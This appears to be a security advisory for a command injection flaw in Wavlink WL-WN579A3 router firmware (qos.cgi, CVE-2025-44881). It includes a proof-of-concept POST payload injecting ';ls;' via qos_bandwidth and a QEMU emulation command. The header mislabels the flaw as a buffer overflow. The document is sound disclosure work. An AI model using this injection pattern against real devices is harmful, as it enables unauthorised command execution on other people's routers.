





**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44881

CNVD:CNVD-2025-11238

# **Description**:

A command injection vulnerability exists in the  configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/qos.cgi`).The system function executes the concatenated byte_417C84. Since byte_417C84 can be controlled, the command execution vulnerability is triggered and any command can be executed.




# exploit：


entering the main function, first verify the reference and cookie, check the logic and add environment variables to bypass

```
-E HTTP_REFERER=wifi.wavlink.com
-E HTTP_COOIKE = session=1111111111111
```





Tracking the sub_402598 function, we found that when the user enters the parameter page=qos, the sub_401340 function will be entered.





Continuing the tracking, the program obtains the value of qos_bandwidth from the user input and disassembles it into v12 and v13.







Then, v12 and v13 are concatenated to byte_417C84. Therefore, we can control the value of qos_bandwidth to execute the command.


post_data.txt as follows:

```
page=qos&sel_qos=1&qos_bandwidth=;ls;,1
```


Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com -E  HTTP_COOKIE=session=111111111111111  -L ./lib ./etc/lighttpd/www/cgi-bin/qos.cgi < post_data.txt
```


Debugging confirms execution within `system()`


—the resulting command assembled by the application is:

```
qos_script.sh mode_setup 1 ; ls; 1>/dev/null 2>&1
```

This command not only executes the intended script (`qos_script.sh`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
